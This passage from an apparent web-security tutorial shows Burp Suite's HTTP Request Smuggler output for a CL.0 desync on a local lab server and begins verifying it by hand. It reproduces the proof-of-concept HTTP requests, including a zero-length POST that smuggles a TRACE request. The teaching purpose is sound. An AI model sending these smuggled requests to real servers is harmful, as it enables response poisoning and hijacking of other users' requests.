 We can see the result of the scan in `Extensions > Installed`. When selecting the `HTTP Request Smuggler` extension from the list, select the `Output` Tab at the bottom of the window. The result is printed to the UI and looks like this:

```
Queueing reuest scan: CL.0
Found issue: CL.0 desync: h2CL|TRACE /
Target: https://172.17.0.2
HTTP Request Smuggler repeatedly issued the attached request. After 1 attempts, it got a response that appears to have been poisoned by the body of the previous request. For further details and information on remediation, please refer to https://portswigger.net/research/browser-powered-desync-attacks
Evidence:
======================================
GET /index.php HTTP/2
Host: 172.17.0.2:8443
Origin: https://wguglsurkz2.com

======================================
POST /index.php HTTP/1.1
Host: 172.17.0.2:8443
Origin: https://wguglsurkz2.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

TRACE / HTTP/1.1
X-YzBqv:
======================================
POST /index.php HTTP/1.1
Host: 172.17.0.2:8443
Origin: https://wguglsurkz2.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

TRACE / HTTP/1.1
X-YzBqv:
======================================

```

Burp tells us that the web application is vulnerable to a `CL.0` vulnerability. It gives us a proof-of-concept request to verify the finding from the automated scan. Let's verify the result. To do so, we are going to use the following requests from the above output. Request 1:

```http
POST /index.php HTTP/1.1
Host: 172.17.0.2:8443
Origin: https://wguglsurkz2.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

TRACE / HTTP/1.1
X-YzBqv:

```
